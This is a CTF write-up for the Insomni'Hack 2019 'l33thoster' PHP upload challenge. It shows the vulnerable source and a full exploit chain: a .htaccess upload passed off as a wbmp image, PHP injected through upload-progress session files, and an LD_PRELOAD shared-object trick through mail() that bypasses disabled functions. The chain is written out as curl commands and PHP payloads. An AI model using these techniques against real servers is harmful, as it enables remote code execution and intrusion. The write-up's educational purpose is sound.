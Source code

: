 ```yaml
---
layout: post
title: Insomni'Hack teaser 2019 l33thoster writeup
tags: web, ctf, rce, insomnihack
---
```


# Description
You can host your l33t pictures <a href="#">here</a>.

# The Challenge
This challenge was a PHP challenge that allowed users to upload files in custom folder, the source code was given :
```php
<?php
if (isset($_GET["source"])) 
    die(highlight_file(__FILE__));

session_start();

if (!isset($_SESSION["home"])) {
    $_SESSION["home"] = bin2hex(random_bytes(20));
}
$userdir = "images/{$_SESSION["home"]}/";
if (!file_exists($userdir)) {
    mkdir($userdir);
}

$disallowed_ext = array(
    "php",
    "php3",
    "php4",
    "php5",
    "php7",
    "pht",
    "phtm",
    "phtml",
    "phar",
    "phps",
);


if (isset($_POST["upload"])) {
    if ($_FILES['image']['error'] !== UPLOAD_ERR_OK) {
        die("yuuuge fail");
    }

    $tmp_name = $_FILES["image"]["tmp_name"];
    $name = $_FILES["image"]["name"];
    $parts = explode(".", $name);
    $ext = array_pop($parts);

    if (empty($parts[0])) {
        array_shift($parts);
    }

    if (count($parts) === 0) {
        die("lol filename is empty");
    }

    if (in_array($ext, $disallowed_ext, TRUE)) {
        die("lol nice try, but im not stupid dude...");
    }

    $image = file_get_contents($tmp_name);
    if (mb_strpos($image, "<?") !== FALSE) {
        die("why would you need php in a pic.....");
    }

    if (!exif_imagetype($tmp_name)) {
        die("not an image.");
    }

    $image_size = getimagesize($tmp_name);
    if ($image_size[0] !== 1337 || $image_size[1] !== 1337) {
        die("lol noob, your pic is not l33t enough");
    }

    $name = implode(".", $parts);
    move_uploaded_file($tmp_name, $userdir . $name . "." . $ext);
}

echo "<h3>Your <a href=$userdir>files</a>:</h3><ul>";
foreach(glob($userdir . "*") as $file) {
    echo "<li><a href='$file'>$file</a></li>";
}
echo "</ul>";

?>

<h1>Upload your pics!</h1>
<form method="POST" action="?" enctype="multipart/form-data">
    <input type="file" name="image">
    <input type="submit" name=upload>
</form>
<!-- /?source -->
1
```	

## Ideas

My first thought was that the extension check was done without case check so changing the case could work.

Also the challenge suggested we couldn't use php tags `<?`, and  we need to make the file look like an image (bypass `exif_imagetype`) with defined size `1337x1337` 

# Solving the challenge

The challenge is basically asking for a `.htaccess` upload while bypassing all restrictions, we need a valid image header that will not break `.htaccess` syntax, which is `wbmp` because it starts with a null byte and `.htaccess` will ignore that line, we craft our `.htaccess` file and add a directive to make our custom extension files be interpreted as `PHP`.
![screen1.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen1.png)
We do the same thing to upload our php file with the custom extension the content isn't important.
![screen2.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen2.png)

The next step is to edit `.htaccess` file and add two more directives, the first one is disable php session upload_progress cleanup, and the second one is append file which will be a custom session one.

![screen3.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen3.png)
Note that PHP_SESSION_UPLOAD_PROGRESS will create a session file for me, and disabling the cleanup will not remove my files so I don't need to do any kind of race conditions.

```sh
curl -vvv http://35.246.234.136/images/cce36633671a3a556973a0b2d3592fe4371a5bde/test.xyz -H 'Cookie: PHPSESSID=xyz' -F "PHP_SESSION_UPLOAD_PROGRESS=whatever" -F "file=@/etc/passwd"
```
Now requesting our `.xyz` file in the browser shows some serialized data with interested reflected values
![screen4.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen4.png)
so the file parameter is reflected here it's `file` and also whatever I put in PHP_SESSION_UPLOAD_PROGRESS, i'm gonna use one of them to inject my php code.
I'm going to intercept my curl request in burp and edit one of the parameters.
```sh
export http_proxy="http://127.0.0.1:8080/"
curl -vvv http://35.246.234.136/images/cce36633671a3a556973a0b2d3592fe4371a5bde/test.xyz -H 'Cookie: PHPSESSID=xyz' -F "PHP_SESSION_UPLOAD_PROGRESS=whatever" -F "file=@/etc/passwd"
```
![screen5.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen5.png)
I changed the PHPSESSID value because the old one wasn't deleted, so we need to use a new one, need to change it in `.htaccess` as well.
Let's request our file in the browser and enjoy RCE.
![screen6.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen6.png)
Trying various command execution functions results in nothing so we'd better check `phpinfo`
![screen8.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen8.png)


It seems that `mail()` and `putenv()` aren't filtered, so we could overwrite `LD_PRELOAD` to our custom `.so` file and overwrite some function that mail calls.


I stumbeled across another problem of how to upload a valid `.so` file since we didn't have arbitrary upload , also `file_put_contents` and other file manipulation functions were filtered, the solution was to upload the file using our php script and `move_uploaded_file` function. 
_for more details about compiling and generating .so file please check https://corb3nik.github.io/blog/alictf-2016/homework_
```sh
curl -vvv 'http://35.246.234.136/images/cce36633671a3a556973a0b2d3592fe4371a5bde/test.xyz?0=move_uploaded_file($_FILES[%22image%22][%22tmp_name%22],%20%22/var/www/html/images/cce36633671a3a556973a0b2d3592fe4371a5bde/hack.so%22);' -F 'image=@hack.so' -g
```
Next we need to execute the following PHP code to get shell command execution.

```php
  echo putenv("LD_PRELOAD=/var/www/html/images/cce36633671a3a556973a0b2d3592fe4371a5bde/hack.so");
  echo putenv("exec=".$_GET['cmd']);
  echo mail("a", "a", "a");
  show_source("/tmp/out.txt");
```

I have used a perl payload to get reverse shell, the final step was to bypass the captcha  in the `get_flag` binary in an automated way , I have used `PHP` for this.

```php
<?php


        $descriptorspec = array(
           0 => array("pipe", "r"),  
           1 => array("pipe", "w"),  
           2 => array("file", "/tmp/error-output.txt", "a")
        );

        $cwd = '/';
        $env = array();

        $process = proc_open('/get_flag', $descriptorspec, $pipes, $cwd, $env);

        if (is_resource($process)) {

            $res = eval('return '.explode(":", fread($pipes[1], 1024))[1].';');

            fwrite($pipes[0], $res);
            close($pipes[0]);

            echo fread($pipes[1], 1024);

            echo fread($pipes[1], 1024);

            $return_value = proc_close($process);

        }
?>
```
```sh
$ php -f /tmp/file.php

INS{l33t_l33t_l33t_ich_hab_d1ch_li3b}
```
The flag is `INS{l33t_l33t_l33t_ich_hab_d1ch_li3b}`.